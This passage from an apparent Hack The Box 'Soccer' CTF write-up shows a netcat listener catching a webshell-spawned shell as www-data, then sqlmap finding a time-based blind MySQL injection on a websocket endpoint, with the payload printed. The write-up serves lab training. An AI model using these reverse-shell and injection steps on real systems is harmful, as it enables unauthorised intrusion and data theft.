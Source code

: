 BOOM!!!

we can now uload a webshell

{% highlight shell %}

xabaras@helix:~/workdir/ctf/htb/soccer.htb$ nc -nvlp 8000
Listening on 0.0.0.0 8000

Connection received on 10.10.11.194 46782
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:38:28 up  2:09,  2 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ $ 


$ cat /etc/hosts
127.0.0.1	localhost	soccer	soccer.htb	soc-player.soccer.htb

127.0.1.1	ubuntu-focal	ubuntu-focal

$ 

{% endhighlight %}





xabaras@helix:~/workdir/ctf/htb/soccer.htb$ sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"64286*"}'
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:50:47 /2023-02-17/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] y
[23:50:54] [INFO] resuming back-end DBMS 'mysql' 
[23:50:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"72525 AND (SELECT 7135 FROM (SELECT(SLEEP(5)))nZtU)-- nwsQ"}
---
[23:50:57] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[23:50:57] [INFO] fetched data logged to text files under '/home/xabaras/.sqlmap/output/soc-player.soccer.htb'
[23:50:57] [WARNING] your sqlmap version is outdated
